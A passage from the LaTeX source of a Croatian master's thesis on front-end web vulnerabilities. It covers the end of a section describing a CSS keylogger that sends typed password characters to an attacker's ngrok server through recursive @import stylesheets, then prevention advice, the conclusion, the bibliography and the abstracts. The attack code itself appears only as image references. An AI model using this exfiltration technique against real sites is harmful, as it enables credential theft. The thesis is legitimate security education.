Kako bi se drastično smanjio potreban broj CSS pravila koje je potrebno napisati, napadač može napraviti da server, kojem keylogger javlja uneseno slovo, generira novi CSS dokument koji sadrži 223 pravila koje za vrijednost prvog slova lozinke imaju postavljenu vrijednost koju CSS keylogger javi. Na primjer, ako je prvo slovo lozinke \texttt{a} tada će CSS pravilo, koje javlja da je drugo uneseno slovo \texttt{b}, imati oblik prikazan na slici \ref{fig:css_sl}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_sl.jpg}
		\caption{Primjer CSS pravila kojim keylogger javlja da je drugo uneseno slovo "b"} \label{fig:css_sl}
	\end{center}
\end{figure}

Ovo znači da CSS dokumenti koje napadačev server šalje trebaju biti rekurzivni CSS dokumenti, odnosno da oni sadržavaju \texttt{@import} pravilo kojim se od napadačevog servera traži CSS dokument za iduće slovo. Napadačev server šalje CSS dokument za iduće slovo tek onda kad CSS keylogger javi slovo koje je korisnik unio. Ovakav server se može ostvariti kodom prikazanim na slikama \ref{fig:css_ser} i \ref{fig:css_ser3}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_ser.jpg}
		\caption{Napadačev server} \label{fig:css_ser}
	\end{center}
\end{figure}

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_ser3.jpg}
		\caption{Napadačev server} \label{fig:css_ser3}
	\end{center}
\end{figure}

Server funkcionira tako da prilikom njegovog pokretanja se stvara 150 obećanja (eng. promise) u nizu, gdje svako obećanje predstavlja jedno slovo. Kada CSS keylogger pošalje HTTP zahtjev koji u upitnom (eng. query) dijelu zahtjeva ima \texttt{leak} svojstvo koje sadrži vrijednost unesenog slova. Kada server primi opisani HTTP zahtjev dobiveno slovo se nadodaje u niz znakova, koji predstavljaju lozinku, te se rješava (eng. resolve) obećanje koje se nalazi na onom mjestu u nizu koje odgovara rednom broju slova u unesenoj loznici. Rekurzivni CSS dokumenti zatražuju CSS dokument za sljedeće slovo tako da se šalje HTTP zahtjev oblika \texttt{http://0efed9103e27.ngrok.io/?l=2}, gdje svojstvo \texttt{l} označava za koje slovo po redu u loznici se treba generirati CSS dokument kao odgovor na ovaj HTTP zahtjev. Kada server primi ovakav zahtjev, čeka se da CSS keylogger javi vrijednost prethodnog slova, nakon čega server generira CSS dokument, kojega šalje kao odgovor na HTTP zahtjev. Ovo je prikazano na slici \ref{fig:css_ser3}. Funkcija \texttt{generate\_CSS}, prikazana na slici \ref{fig:css_ser}, prima redni broj slova u loznici, za koje se stvaraju pravila, te dosadašnja slova koja je CSS keylogger poslao. CSS pravila se pišu prema uzorku koji je pohranjen u varijablu \texttt{data}. Prvo što se upisuje u CSS dokument je \texttt{@import} pravilo kojim se šalje HTTP zahtjev za idući CSS dokument, nakon čega se  prišu CSS pravila za 223 ASCII znaka. Neki ASCII znakovi se escape-aju kako ne bi narušili strukturu CSS dokumenta. Na kraju HTTP zahtjeva za pojedino slovo se stavlja svojstvo \texttt{q} u upitni dio URL, u koji se stavlja nasumično generirani broj koji osigurava da u situaciji gdje se u loznici nalaze dva ista slova HTTP zahtjev bude poslan. U suprotnom web preglednik ne bi pokušao dohvatiti dokument koji se nalazi na već posjećenoj URL adresi.

Primjer uspješnog izvlačenja lozinke se vidi na ispisu server, što je prikazano na slici \ref{fig:css_pass}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_pass.jpg}
		\caption{Ispis uhvaćene lozinke} \label{fig:css_pass}
	\end{center}
\end{figure}

Stanje mreže na web stranici, koje prikazuje slanje HTTP zahtjeva na server, prikazano je na slici \ref{fig:css_net}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_net.jpg}
		\caption{Niz HTTP zahtjeva na stranici} \label{fig:css_net}
	\end{center}
\end{figure}

Dokaz da je vrijednost lozinke uistinu ona koju je dobio sever se vidi na slici koja prikazuje vrijednost \texttt{input} elementa.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{css_pv.jpg}
		\caption{Prikaz vrijednosti input elementa} \label{fig:css_pv}
	\end{center}
\end{figure}

Ovaj napad se može primijeniti na bilo koji tekstualni element koji se nalazi na stranici \cite{cssnapad1}.

\subsection{Sprječavanje napada}
Ovaj napad se može spriječiti tako da se u \texttt{href} atributu \texttt{link} elementa koristi apsolutna putanja do CSS dokumenta koja bi onemogućila prestanak primjenjivanjem CSS dokumenta na web stranicu dodavanjem znaka \texttt{/} na kraj URL-a.

Kako se ovaj napad zasniva na tome da se neki korisnički podatak, koji je prikazan na stranici, protumači kao CSS, tada se ova ranjivost može spriječiti pročišćavanjem podataka koje korisnik pruža web stranici.

Preporučuje se izbjegavanje korištenja softverskih okvira koji koriste kontrolirane komponente. Iako React ima kontrolirane komponente, ažuriranje vrijednosti \texttt{value} atributa nije zadano već je to preporučena programerska praksa kojom se upravljanje elementima oduzima od DOM-a i daje React-u.

\chapter{ZAKLJUČAK}
Iako su XSS i SQLi napadi poznati dizajnerima i sigurnosnim ekspertima koji kreiraju web stranice i tehnologije kojima bi se ovakvi napadi spriječili, i dalje je moguće izvest ove napade koji su postali složeniji i inovativniji u načinu na koji se zaobilaze prepreke koji dizajneri postavljaju u vlastite web stranice. Neke ranjivosti se mogu iskoristi zbog nepažnje korisnika, što se vidi u primjeru XSS napada preko upravitelja lozinki u poglavlju \ref{xss1}, dok su drugi napadi mogući zbog zastarjelih funkcionalnosti koje su i dalje podržane u modernim softverskim okvirima, što se dogodilo u napadu XSS ranjivost u ASP .NET-u u poglavlju \ref{xss2}. Poteškoća kod obrane od SQLi napada opisanog u poglavlju \ref{sqli} je složeni način testiranja za takve ranjivosti. Za razliku od drugih tipova SQLi napada koji rade promjene u radu web aplikacije, ova vrsta SQLi napada ne radi promjene u prikazu i ponašanju web aplikacije.

Osim već poznatih tipova napada poput XSS i SQLi, dizajneri se moraju boriti i s novim oblicima napad kao što je DOM clobbering. Ovaj napad se može izvesti zbog programerskih praksi koje omogućavaju da se naruši način na koji referenciranja objekata. DOM clobbering ima potencijal zaobilaženja filtera kojima se upravo pokušavaju spriječiti druga vrsta napada odnosno XSS napadi.

Pored DOM clobbering-a i XSS napada, koji su skriptni napadi koji zahtijevaju izvršavanje JavaScript koda, pronađeni su načini izvršavanja napada bez skripte kojima je omogućeno izvlačenje tajnih ili skrivenih podataka iz web stranice korištenjem samo CSS dokumenata.

Gotovo svi napadi se mogu spriječiti primjenom određene kombinacije metoda zaštite, ispravne konfiguracije korištenih tehnologije i primjene pravilnih programskih praksi, ali postoje ranjivosti, kao ona opisana u napadu XSS ranjivosti ASP .NET-u, koje su ugrađene u softverske okvire.

%%%%%%%%%%%%%%%%%%%%%%% LITERATURA / BIBLIOGRAPHY %%%%%%%%%%%%%%%%%%%%%%%%%
%\addcontentsline{toc}{chapter}{Literatura}

\renewcommand{\bibname}{LITERATURA}
\begin{spacing}{1}
\begin{thebibliography}{99}
	\bibitem{html} ,,HTML Tutorial'', s Interneta, \url{https://www.tutorialspoint.com/html/index.htm}
	\bibitem{css_tut} ,,CSS Tutorial'', s Interneta, \url{https://www.tutorialspoint.com/css/index.htm}
	\bibitem{js} ,,Javascript Tutorial'', s Interneta, \url{https://www.tutorialspoint.com/javascript/index.htm}
	\bibitem{ajs} ,,About JavaScript'', s Interneta, \url{https://developer.mozilla.org/en-US/docs/Web/JavaScript/About_JavaScript}, 4. ožujka 2020.
	\bibitem{expss} ,,ExpressJS - Overview'', s Interneta, \url{https://www.tutorialspoint.com/expressjs/expressjs_overview.htm}
	\bibitem{aspnet} ,,ASP.NET - Introduction'', s Interneta, \url{https://www.tutorialspoint.com/asp.net/asp.net_introduction.htm}
	\bibitem{wsh} ,,About Wireshark'', s Interneta, \url{https://www.wireshark.org/}
	\bibitem{tpdump} ,,Manpage of TCPDUMP'', s Interneta, \url{https://www.tcpdump.org/manpages/tcpdump.1.html}, 2. ožujka 2020.
	\bibitem{mssql} ,,MS SQL Server Tutorial'', s Interneta, \url{https://www.tutorialspoint.com/ms_sql_server/index.htm}
	\bibitem{php} ,,PHP - Introduction'', s Interneta, \url{https://www.tutorialspoint.com/php/php_introduction.htm}
	\bibitem{ranj} Jessica Ortega: ,,What is a Website Vulnerability and How Can it be Exploited?'', s Interneta, \url{https://www.sitelock.com/blog/what-is-a-website-vulnerability/}, 25. travanja 2017.
	\bibitem{xsstut} ,,CROSS-SITE SCRIPTING (XSS) TUTORIAL: LEARN ABOUT XSS VULNERABILITIES, INJECTIONS AND HOW TO PREVENT ATTACKS'', s Interneta, \url{https://www.veracode.com/security/xss}
	\bibitem{xssref} ,,Reflected XSS'', s Interneta, \url{https://portswigger.net/web-security/cross-site-scripting/reflected}
	\bibitem{xssstor} ,,Stored XSS '', s Interneta, \url{https://portswigger.net/web-security/cross-site-scripting/stored}
	\bibitem{xssdom} ,,DOM-based XSS'', s Interneta \url{https://portswigger.net/web-security/cross-site-scripting/dom-based}
	\bibitem{xssport} ,,Cross-site scripting'', s Interneta \url{https://portswigger.net/web-security/cross-site-scripting}
	\bibitem{domclob} ,,DOM clobbering'', s Interneta \url{https://portswigger.net/web-security/dom-based/dom-clobbering}
	\bibitem{sitesqli} ,,SQL injection'', s Interneta \url{https://portswigger.net/web-security/sql-injection}
	\bibitem{blndsqli} ,,Blind SQL injection'', s Interneta \url{https://portswigger.net/web-security/sql-injection/blind}
	\bibitem{key} ,,WHAT IS A KEYLOGGER: A BRIEF ON A DANGEROUS AND MALICIOUS TOOL'', s Interneta, \url{https://enterprise.comodo.com/what-is-a-keylogger.php}
	\bibitem{key2} ,,Keylogger'', s Interneta, \url{https://www.malwarebytes.com/keylogger/}
	\bibitem{bind} Chris Buxton: ,,All About BIND DNS: Who, How, \& Why'', s Interneta, \url{https://linuxacademy.com/blog/linux/all-about-bind-dns-who-how-why/}, 14. sječnja 2020.
	\bibitem{kali} ,,What is Kali Linux?'', s Interneta, \url{https://www.kali.org/docs/introduction/what-is-kali-linux/}, 19. svibnja 2019.
	\bibitem{x2cpport} ,,Exploiting cross-site scripting vulnerabilities'', s Interneta, \url{https://portswigger.net/web-security/cross-site-scripting/exploiting}
	\bibitem{domnapad} ,,Clobbering the clobbered — Advanced DOM Clobbering'', s Interneta, \url{https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94}, 26. rujna 2019.
	\bibitem{dnsextr} Ryan Wendel: ,,DNS Exfiltration using SQLMap in a Microsoft SQL Environment'', s Interneta, \url{https://www.ryanwendel.com/2020/02/27/dns-exfiltration-using-sqlmap-in-a-mssql-environment/}, 27. veljače 2020.
	\bibitem{annapad} Paweł Hałdrzyński: ,,All is XSS that comes to the .NET'', s Interneta, \url{https://blog.isec.pl/all-is-xss-that-comes-to-the-net/}, 8. studenog 2019.
	\bibitem{cssnapad1} Paweł Hałdrzyński: ,,CSS Injection Primitives'', s Interneta, \url{https://x-c3ll.github.io/posts/CSS-Injection-Primitives/}, 16. listopada 2019.
	\bibitem{cssnapad2} James Kettle: ,,Detecting and exploiting path-relative stylesheet import (PRSSI) vulnerabilities'', s Interneta, \url{https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities}, 17. veljače 2015.
	
\end{thebibliography}
\end{spacing}

%%%%%%%%%%%%%%%%%%%%%%% POPIS OZNAKA I KRATICE %%%%%%%%%%%%%%%%%%%%%%%%
% -------------------------------------------------------------------
% napravili:
% Author: Toni Perković, toperkov@fesb.hr, toperkov@unist.hr
% Author: Marin Bugarić, mbugaric@fesb.hr
% Author: Ivo Stančić, istancic@fesb.hr
% modificirao: Ivan Tomac, itomac@fesb.hr
% FESB 2017;
% -------------------------------------------------------------------

\begin{flushleft}
\addcontentsline{toc}{chapter}{POPIS OZNAKA I KRATICA}
{\LARGE\bf{POPIS OZNAKA I KRATICA}}

\vskip 15mm
\begin{table}[h!]
	\centering
	\begin{tabular}{r l} % 
		XSS & Cross-Site Srcipting\\
		HTML & Hyper Text Markup Language\\
		HTTP & Hyper Text Transport Protocol\\
		CSS & Cascading Style Sheet\\
		PHP & PHP Hypertext Preprocessor\\
		API & Application Programming Interface\\
		JIT & Just In Time\\
		VoIP & Voice over Internet Protocol\\
		TCP/IP & Transfer Control Protocol/Internet Protocol\\
		VIA & Virtual Interface Adapter\\
		SQL & Structured Query Language\\
		I//O  & Input//Output\\
		LSN & Log Sequence Number\\
		CSP & Content Security Policy\\
		DOS & Denial Of Service\\
		DNS & Domain Name Service\\
		EJS & Embedded JavaScript\\
		BIND & Berkely Internet Name Domain\\
		DDOS & Distributed Denial Of Service\\
	\end{tabular}
\end{table}
 
\end{flushleft}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% SAŽETAK %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% -------------------------------------------------------------------
% napravili:
% Author: Toni Perković, toperkov@fesb.hr, toperkov@unist.hr
% Author: Marin Bugarić, mbugaric@fesb.hr
% Author: Ivo Stančić, istancic@fesb.hr
% modificirao: Ivan Tomac, itomac@fesb.hr
% FESB 2017;
% -------------------------------------------------------------------

%sazetak na hrvatskom jeziku
\newpage
\setlength{\parindent}{0in}
{\fontsize{14}{18}\bf {SAŽETAK}}

\vskip 15mm
\addcontentsline{toc}{chapter}{SAŽETAK}
   
\textnormal{
Tema diplomskog rada je pronalazak front-end ranjivosti web aplikacija, načini na koje se te ranjivosti mogu zloupotrijebiti te koje su metode obrane od napada koji iskorištavaju pronađene ranjivosti. }

\textnormal{
XSS ranjivost preko upravitelja lozinki opisuje napad koji iskorištava XSS ranjivost u blog stranici. Ranjivost, koju web stranica posjeduje je mogućnost da korisnik upiše HTML kod u tekst članka, zbog koje je moguće iskoristi loše konfiguriran upravitelj lozinki i tako doći do korisničkog imena i lozinke žrtve.}

\textnormal{
U sljedećem napadu je iskorištena DOM clobbering ranjivost blog web stranice. Ovaj put web stranica primjernu pročišćavanje korisničkog koda te dopušta sigurne HTML elemente, atribute i mrežne protokole. Međutim, ova stranica ima ranjivost u načinu na koji je kod napisan te propust u filteru koji je se primjenjuje na tekst blog članka. Ovo zajedno omogućava napadaču izvršavanje bilo kakvog koda unutar web stranice.}

\textnormal{
Slijepi SQLi napad iskorištava dobro napravljenu web aplikaciju koja ne reagira na kašnjenja ili greške izazvane na bazi podataka. Ovaj napad iskorištava zadanu konfiguraciju baze podataka kako bi se gotovo neprimjetno izvukli podatci.}

\textnormal{
Ranjivost koja je pronađena u ASP .NET-u omogućava napadaču izvršavanje proizvoljnog koda, jer se zloupotrebljava zastarjela funkcionalnost. Ovaj napad se izvodi kreiranjem URL-a kojim se može u web stranicu učitati maliciozna skripta, jer se koristi zastarjela funkcionalnost.}

\textnormal{
I na kraju je opisana ranjivost PHP servera. Ova ranjivost se nalazi u načinu na koji PHP server interpretira relativne URL adrese. Ova ranjivost zahtjeva korištenje Internet Explorera koji u konačnici omogućava primjenu CSS keyloggera kojim je moguće izvući bilo koji tajni ili skriveni podataka s web stranice.}


\vskip 15mm
\bf{Ključne riječi:\\}
\textnormal{XSS, SQLi, Dom clobbering, ASP. NET, PHP, CSS keylogger, hakerski napad, ranjivosti}




%%%%%%%%%%%%%%%%%%%%%%%%%%%%%% SAŽETAK ENG %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% -------------------------------------------------------------------
% napravili:
% Author: Toni Perković, toperkov@fesb.hr, toperkov@unist.hr
% Author: Marin Bugarić, mbugaric@fesb.hr
% Author: Ivo Stančić, istancic@fesb.hr
% modificirao: Ivan Tomac, itomac@fesb.hr
% FESB 2017;
% -------------------------------------------------------------------

%sazetak na engleskom jeziku

\newpage
\setlength{\parindent}{0in}

\begin{center}
	{\LARGE\bf{FRONT-END VULNERABILITIES OF WEB APPLICATIONS}}
\end{center}
\vskip 10mm

{\fontsize{14}{18}\bf {SUMMARY}}

\vskip 15mm
\addcontentsline{toc}{chapter}{SUMMARY}
\textnormal{
The theme of this is the discovery of front-end vulnerabilities, the way these vulnerabilities could be exploited with cyber attacks and defense methods that could be used against these attacks.}

\textnormal{
XSS vulnerability with password manager describes the attack that exploits XSS vulnerability found in blog web site. This vulnerability allows the users to write HTML code, into the blog post, which exploits badly configured password manager to get the victims user name and password.}

\textnormal{
The next attack exploits DOM clobbering vulnerability in the blog web site, but this time the web site is performing purification of user generated code and allows the use of safe HTML elements, attributes and protocols. However, this web site has the vulnerability in the way it is coded and in the text filter that is being applied to the user text. Together this allows the execution of malicious inside the web site.}

\textnormal{
Blind SQLi attack exploits a well made web application that does not change even when there are errors or time delays being created on the database. This attack exploits the default configuration of the database to extract the data.}

\textnormal{
Vulnerability that was found in ASP .NET framework allows the attacker to execute what ever code he wants, all because the framework supports outdated functionality. This attack is done by creating the URL that exploits the old functionality, which intern allows the execution of malicious script.}

\textnormal{
The last attack describes the PHP server vulnerability. This vulnerability lies in a way the PHP server interprets relative URL addresses. The described vulnerability in combination with Internet Explorer allows the deployment of CSS keylogger which can extract any secret or hidden data on the web site.}

\bf{Keywords  :\\}
\textnormal{XSS , SQLi, DOM clobbering, ASP. NET, PHP, CSS keylogger, cyber attack, vulnerabilities}


\end{document}